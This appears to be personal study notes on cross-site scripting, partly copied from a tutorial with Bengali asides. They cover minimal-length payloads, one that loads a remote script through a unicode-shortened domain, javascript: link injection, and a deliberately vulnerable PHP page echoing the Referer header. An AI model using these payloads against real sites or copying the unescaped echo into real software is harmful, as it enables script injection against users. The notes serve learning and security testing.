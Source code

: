 <?php header("Content-Type: application/javascript"); ?>





LENGTH LIMITED PAYLOADS:
========================
Sometimes, you’ll get an injection that needs to be under a specific amount of characters. The shortest payload I know of that does not pull an external script is 20 characters long:

<svg/onload=alert()>
The shortest payload I know of that does pull an external script is 27 characters:

<script/src=//㎻.₨></script>
This payload uses a trick where a single unicode character gets split into two normal characters by the browser, which means that you can take a 5 character domain such as nw.rs and shorten it down to 3 characters: ㎻.₨, the browser will just convert it back to 5 characters and fetch the script as if nothing happened.

Note that the payloads above are the shortest ones I know of that can be executed within a plain HTML context. In other contexts, you may have much shorter payloads, 

for example,***** you might already be in a JavaScript context, where the whole payload could just be alert(1). ******

(((( first know what context it is .... mane holo payload ta kothai dicci je ta ki html naki javascript er vitore 
naki url er vitore naki etc )))))







LINK INJECTION:
===============

You can execute JavaScript with the javascript: protocol. Don’t believe me? Go ahead, paste javascript:alert(document.domain) into your browser’s address bar right now, and press enter!

This can be injected into anywhere that a link will exist, for example, in a <a> tag:

<a href="javascript:alert(document.domain)>click me</a>
When that link is clicked, the JavaScript will execute.




REFERER HEADER XSS:
=====================

This hasn’t really been possible since IE6, except maybe in some extremely rare cases. The reason is that key characters within the Referer header value are URL encoded by the browser. If you want to give this a shot for yourself, you can use this PHP code:

<html>
<head><title>MyApp</title></head>
<body>

Welcome to MyApp.

<?php echo $_SERVER['HTTP_REFERER']; ?>;
